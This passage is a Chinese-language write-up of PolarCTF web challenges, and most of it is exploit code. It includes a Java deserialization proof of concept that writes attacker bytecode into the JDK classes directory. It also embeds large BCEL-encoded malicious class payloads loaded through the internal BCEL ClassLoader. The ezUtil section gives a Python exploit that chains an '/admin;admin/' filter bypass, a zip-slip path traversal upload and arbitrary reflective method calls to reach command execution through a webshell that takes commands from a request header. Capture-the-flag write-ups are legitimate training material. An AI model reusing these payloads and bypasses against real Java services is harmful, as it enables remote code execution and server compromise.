        String BCEL = "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$5bW$TW$U$fe$8e$q$99a$YD$C$I$f1R$c1k$40M$c4$bb$40$ad$IX$ac$B$adA$v$a2m$87$e1$A$D$93$9983$B$b4$f7$7bko$f6fk$ed$cd$da$d6v$f5$c9$97$e8j$97$ae$3e$f7$a1$7d$e9k$9f$fa$d4$be$f4$l$d4$ee$93I4$R$ace$z$f69g_$ce$de$fb$db$7b$9f$cc$cf$ff$fcp$D$c0V$7c$a7$a0$i$87$U$3c$8c$c3$82$qe$M$u8$82$a32$G$r$3c$a2$40$c2$90$84c$K$86q$5c$c6$J$Z$8f$caxL$c6$e324$n$h$91$a1$cb$Y$95$c0$85$c6$98$8cq$Z$T$K$ML$w$a8$c1$94$MS$ac$v$Z$96$M$5bFZ8$3b$v$c3$91$e0$w$f0$90$RdZ$c1$Mf$V4$e2$94$8c$d3b$7dB$90$te$3c$r$e3i$J$cf$uh$c1$b3$S$9ec$Iu$Y$96$e1$edf$u$8b6$le$It$d9$a3$9c$a1$waX$bc$3f$93$g$e1$ce$806b$S$t$9c$b0u$cd$3c$aa9$868$e7$99$Bo$c2p$ZV$tlg$3c$ceg$b5T$da$e4q$cdMs$dd$9b$9c$e1$da4w$e2$7b$bbz$S$3d$fa$84$dd$ce$mw$e8f$de$d9$82$e9M$M$d5$89ImZ$8b$9b$9a5$k$ef25$d7m$X$82V$86$rE$C$87$8f$99t$5d$bc$8f$7b$T$f6hNc$b3$88$e6$b6$c6$c1$91IR$c8I$b6$I$b2U$90m$82l$Xd$87$m$3b$F$d9Uj$97$f4$i$c3$g$t$bb$b2$e9V$8a$a6fx$3eYpZsZ$v$a4$ba$oa$cf$ac$ce$d3$9ea$5b$q$afLz$9a$3e$d5$a7$a5s$88Py$r$3cO$c5$a5$eaI$e8$s$a0$Z$94$a4$9dqt$be$cf$Q$80U$W$e0$88$89$ebTlDL$c2$L$w$5e$c4K$w$5e$c6$x$M$j$Ee$ccM$L$f7c$8e$96$e23$b63$V$9b$e1$p1$dd$b6$3c$3e$eb$c5$i$7e2$c3$5d$_v$d8_$bb$7cv$afm$8er$ea$81WU$bc$863$M$b5$e3$dc$cbktz$94$ccH$c6$e3T$a9$aa$3b$QW$f1$3a$de$60Xt$t$9a$94$85$8a7$f1$W$c3$9e$ff$hO$92$3b$d3$e6$bcN$xr$b1$b8i$dbr$J$C$e5vd$M$cb$85$e3$d9$98$eb$db$de$be$a3$a0$5cN$ca$83$8e$e1qG$c5$db$o$d25$a5$G$T$9e$97$8e$f5$S$v$f5$ee$h$f6r$8d0$v$c9$ce$af$ab$8a$b3x$87$ea$ae$a7F$Z$q$db$8dY$94$98$84wU$bc$87$f7U$7c$80s$q$i$dc$df$af$e2C$7cD$9d$T$d7I$z$3ebXqw$82$8e$hu$V$e7$f11$f1$E$y$9eiQ$x$e7$5cd$3c$c3$8c$tu$cd$b2D$v$$$a8$f8$E$9f$aa$f8$M$9fK$f8B$c5E$7c$v$K$7e$89n8$de$a9$e2$x$7c$ad$e2$h$e1$w8ff$c4$c5A$dd$b4$zJ$baf$9eVSq$Z$df2$ac$bc$f7$a014$dcmzJ$a0$Y$98p$I$ljI$3d$e38$dc$f2$K$e7$dahs$e2N$zj$f4$3a$C4$dfk$b9$ceI$d8$3e$b8$91$S$f5$o$91$b0$99W$40$c51i$93$e3PA$a3s$c7n$ce$8d$ed$7eA$LY$ec$99$c7fx$8eM$f3$7f$bd$o$n$c3$9a$b6$a7$I$ec$5d$d1$b9O$c9$f0$5cV$f3$7c$PN5$c5$d4$cduSs$f8h$n$b6J$97$7b$9d$ba$ce$5d$d7$f0$9f$c8$e81$f1$ae$W$f7$e0$v$d7$e3$v$7f$y$O9v$9a$3b$de$v$86$b5$f7$c0$e1$d6$8bT$e1$d9G$d2d$d4$a5$89$B$v$ad$d6$z$rYL$a7fX$E$f0$d2$e2$8b$bb$s4$t$vf$c4$d2y$7b$f31R$Ue$f5$xQ3$b7$92$ed$85$ce$ce$b1$Og$y$cfH$VF$b8p$a8$x1$cb$b3$c90$c0g9$cdM4$3a$cf$bbZlA$Q$I$b4J$5d$e5$99$M$L$c9$d5$7e$x$9d$f1$c8$92k$84Z$7d$c1$9da$c7$8b$Ed$de$Q$9dW$m$d0W3$$$ef$e6$a6$91$S$_$J$c3$ba$bbc$5d$3c$c2$o$J$8b$fa$9d$8aJQ$e4$k$fa$BG$d3$v$e7$c6hsiV$FQ$8f$c9S4K$edh$c2$G$fa$5d$W$7f$L$c0$c43O4N$a78$ad$8c$d6$60$cbU$b0$x9$f1$s$a2$a1$i3$84V$a2$aa$af$80$cd$d8B$abL$l$Uy$e3$F$df$d3$95$V$A$d3$afaA$We$e1$40$W$c1$D$z$e1P$d9uHY$c8$89$f5$8cv$e5Y$u$7dy$85$K_A$z$u$b4$84$x$f3$db$fe$f5$h$f2$bam$81$8d$b7$b6$c1$bc$ddB$b2$LW$f9$aa$8b$daByn$b5$e0$86$D$c4$j$w$L$d7$q$85H$8aH$UDm$q$e4$d3H$a0p$93$i$91$oAR$z$t$d5$3aRU$7eBM$5by$e8$3aQ$r$bc$f8$g$ea$b3h$IG$b2Xr$k$e1$88$ot$oJ$m$bc4y$ZU$e2$b8$yw$5cN4$Y$vOF$e4$y$ee$L$af$u$f6$i$91$fd$cb$7fD$e3$d054E$94$yVf$b1$ea$wV$87$d7d$b16$8bu$c2$e9$a0o$Z$cdg$S$91$f3$e1$e5$f9$cds$f8$97Q$7e$a0$r$8b$f5$83WD$R$d8$Q$3bN$lJe$b9$S9XF$b4$9c$ca$a3$a0$9e$ca$d0$E$f1$9aWb$t$W$a2$LU$e8$c7$o$M$a1$g6$c28C_hgQ$8bs$a8$c3$r$y$G$e5$8b$hh$c0$_$88$e07$y$c1$eft$d7$lX$8e$3f$b1$C$7f$a3$915$a3$89ub$r$h$c2$g$f2$b8$8a$9d$c0j6$82$b5$b9v8M$7eT$d6$87m$d8N$a7z$b6$X$3b$c8$t$p$8b$9d$d8$856j$a0$$$b6$Y$ed$c4$xC$3f$ab$40$H$f1$C$Y$a2$f0$ef$a7$5d$90$e2$f9$L$bbI$g$a2$a8$7e$c5$D$b4$93$u$a6$y$f6$90T$a6$c8$$$a2$T$7b$v$af$h$b8$40ytC$n$efA$f4$60$ly$7b$90$fe$b7$pp$93$C$ae$90$d0$xa$bf$84$87$K$d4$df$f8$fb$D$S$S$40$c5MB$89$60$93$d0$X$a4$I$fbs$ed$7d$f0_g$f9j$k$Y$L$A$A";
        //获取ClassLoader对象
        ClassLoader classLoader = (ClassLoader) Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader").getDeclaredConstructor().newInstance();
        //获取loadClass方法
        Method loadMethod = classLoader.getClass().getMethod("loadClass",String.class);
        //执行loadClass方法加载BCEL
        Class<?> loadedClass = (Class<?>) loadMethod.invoke(classLoader,BCEL);
        loadedClass.newInstance();
    }

}
```

利用poc写文件:

```
import com.polar.ctf.bean.UserBean;
import java.io.*;
import java.lang.reflect.Constructor;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Base64;
import java.util.HashMap;

public class test {
    public static void main(String[] args) throws Exception {
        // 反射获取构造函数
        Constructor con = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap").getDeclaredConstructor(String.class,int.class);
        con.setAccessible(true);
        HashMap map = (HashMap) con.newInstance("/usr/lib/jvm/java-8-openjdk-amd64/jre/classes/", 1);

        String payload = FiletoBase64("C:\Users\13664\Desktop\111\sources\out\production\111\BCELclassloaderEcho.class");
        UserBean userBean = new UserBean("BCELclassloaderEcho.class",payload,map);

        String a = serialize(userBean);
        System.out.println(a);
    }

    public static String FiletoBase64(String filename) throws IOException {
        byte[] bytes = Files.readAllBytes(Paths.get(filename));
        String encode = Base64.getEncoder().encodeToString(bytes);
        return encode;
    }
    public static String serialize(Object obj) throws IOException {
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        objectOutputStream.writeObject(obj);
        return Base64.getEncoder().encodeToString(byteArrayOutputStream.toByteArray());
    }
}
```


然后再次反序列化刚刚的恶意字节码，触发readObject加载恶意字节码，然后请求头传参rce。


flag{534563e5d4b3db6067b2e708354dbf40}

## ezUtil 【2024冬季个人挑战赛】

在/admin/api/GetClassValue路由，接受了一个data，里面可以传入clazzName，methodName，fieldName。


并在下面进行了反射调用，这里就可以执行任意类方法。


再看到FileUtil类里的`generateZip`方法，这个方法是可以上传一个任意的zip文件，而且没有对文件内容进行任何过滤。


还有unZipFile方法，这里没有对内部文件名做任何过滤，就直接拼接了`./`，就说明这里存在目录穿越，可以把任意文件上传到任意位置。


再加上上面的任意类方法调用，我们就可以达到跟上一道题“一写一个不吱声”一样的效果：上传一个恶意字节码文件到JAVA\_HOME，然后通过任意类方法调用，调用恶意字节码的classloader加载外部恶意字节码，来达到rce的效果。

做这些的前提是还有一个Filter限制，在FilterConfig类里：


首先经过了handleFilter：主要是查看url的`admin/`后面是否存在`../`和`;`​


第二个AdminFilter：检查路由是不是以`/admin/`开头。


绕过方法是：`/admin;admin/`这样handleFilter就只会检查到后面的`admin/`，前面的结构被破坏，并且也没存在`/admin/`，第二个AdminFilter同样被绕过了。

所以任意类调用的路由就是：`/admin;admin/api/GetClassValue`

BCELClassLoader：

```
import java.lang.reflect.Method;

public class BCELClassLoader {
    public static Boolean BCELloader (String BCEL) throws Exception {
        //获取ClassLoader对象
        ClassLoader classLoader = (ClassLoader) Class.forName("com.sun.org.apache.bcel.internal.util.ClassLoader").getDeclaredConstructor().newInstance();
        //获取loadClass方法
        Method loadMethod = classLoader.getClass().getMethod("loadClass",String.class);
        //执行loadClass方法加载BCEL
        Class<?> loadedClass = (Class<?>) loadMethod.invoke(classLoader,BCEL);
        loadedClass.newInstance();
        return true;
    }
}
```

还是一样的，把上一道题的回显马转化成BCEL格式，嵌入下面的脚本：

exp：

```
import base64
import zipfile
import requests

def file_to_base64(file_path):
    with open(file_path, "rb") as f:
        base64_string = base64.b64encode(f.read())
        return base64_string.decode('utf-8')


url = "http://96dd30aa-ff8d-4e30-aa6c-ba97e08dea1e.www.polarctf.com:8090"

#把恶意字节码文件压缩到一个zip里，附带目录穿越的文件名
input_file = r'C:\Users\admin\Desktop\222\sources\out\production\222\BCELClassLoader.class'  # 要压缩的恶意字节码文件
arcname = '../../../../../../../../usr/lib/jvm/java-8-openjdk-amd64/jre/classes/BCELClassLoader.class'  # 目录穿越
with zipfile.ZipFile("output.zip", 'w', zipfile.ZIP_DEFLATED) as zipf:
    # 将文件压缩到 ZIP 中，并自定义在压缩包内的文件名
    zipf.write(input_file, arcname)
    zipf.close()


#上传压缩包
upload_data = {
    "data":{
        "clazzName":"com.polar.ctf.admin.util.FileUtil",
        "methodName":"generateZip",
        "fieldName":[
            file_to_base64("output.zip"),  #base64加密后的zip
            ".",   #folderPath
            "output"   #fileName
        ]
    }
}
upload_res = requests.post(url+"/admin;admin/api/GetClassValue", json=upload_data)
print(upload_res.text)


#解压缩
unzip_data = {
    "data":{
        "clazzName":"com.polar.ctf.admin.util.FileUtil",
        "methodName":"unZipFile",
        "fieldName":[
            "output.zip"   #zipFile
        ]
    }
}
unzip_res = requests.post(url+"/admin;admin/api/GetClassValue", json=unzip_data)
print(unzip_res.text)


#执行恶意字节码
invoke_data = {
    "data":{
        "clazzName":"BCELClassLoader",
        "methodName":"BCELloader",
        "fieldName":[
            "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dV$d9w$TU$Y$ff$5d$9ad$s$d3$v$a5i$L$84E$ukZ$m$a1$ec$b4$a8$94P$y$92$W$q$40$z$8b$3a$9d$de$b6$d3Nf$c2$cc$a4$U$dcw$c5$N7$Uq$c3$N$95$t$5e$CG$P$i$9f$7d$d0$X_$7d$f2I_$fc$P$c4$ef$ce$q$90$d0$o$f6$9c$7e$f7$deo$df3$3f$ff$f3$c3u$A$hpIA$U$P$v$d8$8f$ac$A$Hd$iTp$I$fd2$k$960$a0$40$c2a$JG$U$i$c51$Z$8f$c8xT$c6c24$Z$83$82$a6$cb$Y$92$c1$r$M$L$8e$R$Z$a32$M$Fc$YW$d0$ISFN$9c$96$M$5bF$5e$c6q$Z$8e$b0$e7$ca$f0$q$U$UL$e0$84$A$93$KN$e2$94$82$W$3c$$$e3$Jq$3e$v$c0S2$9e$96$f1$8c$84g$V$ac$c2s$S$9eg$88l3$y$c3$bb$8f$a1$s$d1z$88$n$94$b6$878C$7d$c6$b0x_$n7$c8$9d$D$da$a0I$98X$c6$d65$f3$90$e6$Y$e2$5dB$86$bcQ$c3eh$c9$e8v$$$d5$cbs$ee$u7$cd$d4$b0$e6zc$aem$edHwgR$3e$aa$93A$de$a6$9b$rK3$s$d624d$c6$b4$J$zej$d6H$wmj$ae$db$v$I$ed$M$f3$w$I$O$l6$b9$ee$91jo$d4$k$f29$d6$JWnq$ec$j$i$p$G$9f$b2$5e$80$N$Cl$U$60$93$A$9b$F$d8$o$c0$d6j$b9$ac$e7$Y$d6$I$c9$d5L$b4$937$8dG$a6$a3$85$t4$a7$9d$5cj$ae$mvO$ea$3c$ef$Z$b6E$f4$ba$ac$a7$e9$e3$bdZ$deO$H$95W$c2$LT$5c$aa$9e$84n$ca2$83$92$b5$L$8e$cew$Z$o$5b$8a$9f$8b$a4$d0$a5$o$89$94$84$XU$bc$84$97U$bc$82W$Z$b6$d9$ceH$d2$cd$L$db$c3$8e$96$e3$tlg$3cy$82$P$su$db$f2$f8$a4$97t$f8$f1$Cw$bd$e4$fe$e0L$H$e8$k$db$i$e2$8e$84$d3$w$5e$c3$eb$MM$p$dc$xqty$U$c9$60$c1$e3T$a3$fa$db$d2$ad$e2$N$bc$c90$eb$f6TR$I$w$de$c2$Z$86$ed$ff$d7$9f$yw$s$cci$8d$d6$fa$be$b8y$dbrE$fc$b7$3ccX$u$MO$s$dd$40$f6$96$8e2s$94$98$fb$j$c3$e3$8e$8a$b7$85$a7$cb$ab$FF$3d$_$9f$ec$nPm$3d$Q$ec$e1$g$e5$a4$w$ba$a0$a8$w$de$c1$bbT$f4t$efN$G$c9v$93$W$F$s$e1$3d$V$ef$e3$ac$8a$P$f0$n$R$fbw$f7$a98$87$8f$e8$aa$e7$86$a8yR$3a1$a7$G$N$8b$ba$99$9ekt$V$e7$f11$e1Dr$3c$d3$a2n$f6$N$V$3c$c3Leu$cd$b2DA$3eQ$f1$v$3eS$f19$$H$f8B$c5$97$f8J$94$fdk$d2p$b4K$c57$b8$a8$e2$5ba0$3cl$W$84$e2$b0n$da$W$85$de8M$b7$a9$f8$O$df3$y$ba$cb$a01$cc$bd$d3$f4Te$e3$c0$a8C$v$a2$O$d6$L$8e$c3$z$af$fcnJ$b4fn$e7$a2Fo$a6$9c$96$da$cdo$9e$8c$j$e47$5e$c5$5eA$S2$d3$S$a8$3e$s$5d$7c$M$d541u$ec$a6h$ec$MjZ$8eb$fb42G$a6$c8$b4$fe$d7$W$89$Y$d6$84$3dN$99$de$9a$98$baJ$8eLE$b5N$b7p$g$c8$a7$9d$5c75$87$P$95$7d$abs$b9$d7$a5$eb$dcu$8d$60$3f$s$O$8b$a5Z$d9$86$t$5d$8f$e7$82$c9$d8$e7$d8y$eex$t$ZV$dc$r$P77R$adg$l$cc$93PZ$T3R$5d$ad$9bL$b2$YP$cd$b0$u$c1$f3$x$V$a7G5$t$x$c6$c4$d2yg$ebab$Ue$N$w$d18$b5$92$9d$e5$b6$f6Q$fb$L$96g$e4$caS$5c$7e4W$89$95$d0$q$Y$e2$93$9c$86$s$91$98f$afVJP$KD$b6$aaM$95$90$M3$c9$d4n$x_$f0H$92k$94$b59es$86$9d$aa$m$90$f8$dc$c4$b4$E$91$7d$b5$e0$f2$9d$dc4rb$990$ac$bcs$ae$x$e7W$EaQ$bfSQ$c9$L$7f$d1$lp4$9db$5e$9ch$ad$8e$aaL$ea6y$8ef$a9$93$7ei$d7$d0$8f$b2$f8$9b$B$s6$3d$c1$b5$f4$S$t$a33$dcv$F$ec$b2On$t$Y$f1$91$R$ac$p$a8$G$MXO$9f$S$80$8c$8de$e1$Z$97He$z$c0$f4$ab$98QDM$yTDxO$5b$yRs$NR$Rrf$V$a3$5b$b4$I$a5$b7$c4P$h0$a8e$86$b6X$5d$e9$da$b7ju$89$b7$p$b4$e6$e65$5c$92$9bIr$b1$fa$80uVG$a4$84m$Q$d8X$88$b0$D5$b1$c6$ac$mIq$89$9ch$8aG$C$Y$P$955$c9q$v$k$s$d6$u$b16$T$ab$f2$T$g$3b$a2$91k$E$95$d8$ec$ab$98S$c4$dcX$bc$88y$e7$Q$8b$x5$b1$f9$d9$b8$S$8a$z$c8$5eD$bdx$$$f4$9f$f7$Q$M$c7$a3$d9$b8$5c$c4$a2$d8$e2J$cbq9P$fe$pZ$G$aebI$5c$vbi$R$cb$ae$60ylE$R$x$8bH$I$a3$fd$81dk$v$92$b8$5cr$af$84o$9b$82$bf$88$e8$9e$b6$oV$f7_$WE$60$D$ec$u$7d$r$d5$f8$rr$b0$80$60$94$ca$a3$60$O$95$a1$85nkP$87$z$98$894$ea$d1$87Y$Y$40$Dl$c4p$9a$be$d0$ce$a0$Jg$d1L$3b$7f6$u$5e$5c$c7$5c$fc$828$7e$c3$3c$fcN$ba$fe$c0B$fc$89E$f8$h$8bY$xZX$X$96$b0$B$y$t$8bK$d91$yc$83X$e1$b7$c3$v$b2$a3$b2$5el$c2fz$cda$3b$c8$e2V$f2$ae$85mA$H$3a$a9$81$d2l6$b6$R$ae$G$7d$ac$W$f7$S$$$84$Br$ff$3e$ba$85$c9$9f$bfp$3fQ$p$e4$d5$af$d8N7$89$7c$w$a2$8b$a82yv$B$3b$c8$ff$u$f9w$k$3b$d1$N$85$ac$87$b1$L$P$90$b5$k$fa$df$84$d0$Nr$b8V$c2n$J$PJ$d8S$86$c1$r$b8g$q$f4$C$b57$uK$946$J$7da$f2p$af$df$de$fb$fe$FFE$b8$f1$Y$L$A$A"
        ]
    }
}
invoke_res = requests.post(url+"/admin;admin/api/GetClassValue",json=invoke_data,headers={"CMD":"cat flag"})
print(invoke_res.text)
```


flag{2ccba6a1b34ec052f3510a2ef297e420}

PolarCTF web全AK！


